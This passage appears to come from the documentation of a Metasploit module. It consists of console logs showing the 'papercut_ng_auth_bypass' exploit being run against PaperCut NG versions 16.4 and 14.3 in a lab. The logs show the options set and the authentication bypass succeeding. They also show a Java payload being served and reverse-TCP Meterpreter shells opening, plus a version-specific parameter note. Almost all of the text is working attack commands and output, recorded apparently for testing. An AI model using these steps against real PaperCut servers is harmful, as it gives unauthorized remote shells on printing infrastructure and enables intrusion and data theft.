 ```
[*] Using URL: http://10.0.4.101:8080/o30YxAzAA69ISJ8
[*] Server started.
[*] Sending payload for requested uri: /o30YxAzAA69ISJ8.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:40328) at 2023-05-11 02:29:15 +0000
[*] Server stopped.

meterpreter >
```

### Tested on Linux x64 with PaperCut NG Version 16.4.39159
```
msf > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=e79i55m6n77ex4p6ee3fu8u9
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/GuHN8K
[*] Server started.
[*] Sending payload for requested uri: /GuHN8K.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:58324) at 2023-05-11 03:22:13 +0000
[*] Server stopped.

meterpreter >
```
Note: The 'Form0' parameter for version 16 and lower does not take an additional '$Submit$1' value.

### Tested on Linux x64 with PaperCut NG Version 14.3.30457
```
msf > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=b9g3gepapev0
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/kBXJNp
[*] Server started.
[*] Sending payload for requested uri: /kBXJNp.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:32852) at 2023-05-11 03:56:24 +0000
[*] Server stopped.

meterpreter >
```